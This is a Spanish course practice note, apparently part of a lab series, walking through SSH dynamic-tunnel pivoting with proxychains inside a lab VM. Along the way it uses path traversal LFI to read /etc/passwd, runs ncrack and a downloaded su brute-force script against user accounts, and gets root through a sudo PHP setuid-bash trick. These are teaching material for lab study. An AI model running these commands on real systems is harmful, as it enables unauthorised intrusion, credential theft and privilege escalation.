




# Pivoting con Túnel SSH

  

## Túnel SSH y Proxychains

  

El **túnel SSH dinámico** es una de las técnicas de pivoting más elegantes y sencillas de configurar. Con un único comando, SSH crea un proxy SOCKS local en nuestra máquina que redirige todo el tráfico a través del túnel cifrado hacia la máquina remota comprometida, desde donde el tráfico sale hacia la red interna objetivo.

  

```bash
$ ssh -D 1080 tecnico@10.0.0.24
```

  

La opción `-D 1080` indica a SSH que abra un proxy SOCKS en el puerto local 1080. Todo el tráfico que enviemos a ese puerto será redirigido de forma transparente a través de la máquina Debian hacia su red interna.

  

### Proxychains

  

**Proxychains** es una herramienta que permite enrutar las conexiones de cualquier aplicación Linux a través de una cadena de proxies SOCKS. Combinada con el túnel SSH, nos permite usar herramientas como nmap, curl, gobuster o firefox directamente contra redes internas inaccesibles.

  

Editamos `/etc/proxychains4.conf` y añadimos al final, poniendo siempre arriba la conexión más reciente conforme avancemos a nuevas máquinas:

  

```bash
socks5 127.0.0.1 1090    # túnel más reciente
socks5 127.0.0.1 1080    # primer túnel
```

  

**Valores importantes del archivo de configuración:**

  
    
* **dynamic_chain:** usa los proxies en orden, pero si uno falla pasa al siguiente. Recomendado para mayor flexibilidad.
    
* **strict_chain:** todos los proxies deben funcionar en el orden configurado. Si uno falla, la conexión falla.
  

  

## Laboratorio

  

Importamos la OVA **pivoting.ova**, configuramos la red como "Hacking" y levantamos el laboratorio con las credenciales `tecnico / SegInf`:

  

```bash
$ sudo /etc/init.d/init_vm start
```

  


  

## Paso 1: Configurar Proxychains y abrir el túnel SSH

  

Editamos el archivo de configuración de proxychains:

  

```bash
$ sudo nano /etc/proxychains4.conf
```

  

Verificamos que `dynamic_chain` está activo y añadimos al final:

  

```bash
socks5 127.0.0.1 1080
```

  

Abrimos el túnel SSH dinámico hacia Debian:

  

```bash
$ ssh -D 1080 tecnico@10.0.0.24
```

  

## Paso 2: Reconocimiento de la red interna

  

Desde Debian, averiguamos sus interfaces de red:

  

```bash
$ ip a
$ hostname -I
```

  

Subimos y ejecutamos un script de descubrimiento de hosts en el rango encontrado:

  

```bash
# Subir el script desde Kali
$ scp netscan.sh tecnico@10.0.0.24:/tmp

# Ejecutar desde Debian
$ ./netscan.sh
Introduce el rango de ip: 10.10.10

[+] HOST - 10.10.10.2 está activo
```

  

Escaneamos puertos de la máquina descubierta con nmap a través del proxy:

  

```bash
$ sudo proxychains -q nmap -sT -p- 10.10.10.2 -Pn
```

  

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

  

Accedemos al servicio web de diversas formas:

  

```bash
# Con Firefox a través de proxychains
$ proxychains -q firefox

# Con curl a través del proxy
$ proxychains -q curl 'http://10.10.10.2'
$ curl 'http://10.10.10.2' --proxy socks5://127.0.0.1:1080
```

  


  

## Paso 3: Enumeración web y LFI

  

Enumeramos directorios con gobuster pasándole el proxy:

  

```bash
$ gobuster dir -u http://10.10.10.2 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt \
  --proxy socks5://127.0.0.1:1080
```

  



  

Navegando a la URL descubierta encontramos un posible parámetro vulnerable a LFI:

  



  

Fuzzeamos el parámetro con ffuf:

  

```bash
$ ffuf -c \
  -u 'http://10.10.10.2/shop/?archivo=FUZZ' \
  -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
  -x socks5://127.0.0.1:1080 \
  -fs 1112
```

  

Explotamos el LFI para leer `/etc/passwd`:

  

```bash
$ curl 'http://10.10.10.2/shop/?archivo=../../../../../../../../etc/passwd' \
  --proxy socks5://127.0.0.1:1080
```

  



  

Identificamos dos usuarios en la máquina.

  

## Paso 4: Fuerza bruta SSH y acceso a la nueva máquina

  

Hacemos fuerza bruta al usuario `manchi` con ncrack:

  

```bash
$ proxychains -q ncrack -u manchi \
  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-15.txt \
  ssh://10.10.10.2
```

  



  

Nos conectamos a la nueva máquina:

  

```bash
$ proxychains -q ssh manchi@10.10.10.2
```

  


  

Comprobamos las interfaces de red de la nueva máquina:

  

```bash
manchi@51f247c239a9:~$ hostname -I
10.10.10.2 20.20.20.2
```

  

La máquina tiene dos interfaces: está en la red `10.10.10.x` (por donde hemos entrado) y también en la red `20.20.20.x`, que investigaremos en el siguiente salto.

  

## Paso 5: Escalada de privilegios

  

Descargamos un script de fuerza bruta para `su` y un diccionario:

  

```bash
$ wget https://raw.githubusercontent.com/carlospolop/su-bruteforce/master/top12000.txt
$ wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh
$ chmod +x Linux-Su-Force.sh
$ ./Linux-Su-Force.sh seller ./top12000.txt
```

  


  

Nos cambiamos al usuario `seller` y escalamos privilegios aprovechando un permiso sudo sobre PHP:

  

```bash
$ seller@51f247c239a9:/home/manchi$ sudo -l
(ALL) NOPASSWD: /usr/bin/php

$ sudo php -r "system('chmod +s /bin/bash');"
$ bash -p
bash-5.2# whoami
root
```

  
    

Hemos obtenido root en la máquina `10.10.10.2` que también tiene interfaz en `20.20.20.x`. Esta máquina se convierte en el siguiente punto de pivoting para alcanzar la red `20.20.20.0/24`.

  

  

## 📚 Navegación

  

    [→ Siguiente: Chisel]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10c - Pivoting - Práctica 3 - Pivoting con Chisel|10c - Pivoting 3 - Chisel]])
    [← Anterior: Socat]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10a - Pivoting - Práctica 1 - Redirección y Relays con Socat|10a - Pivoting 1 - Socat]])
    [↑ Volver al Índice]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/01 - Escaneo y Enumeración de Redes con Nmap|Índice de Herramientas de Auditoría]])
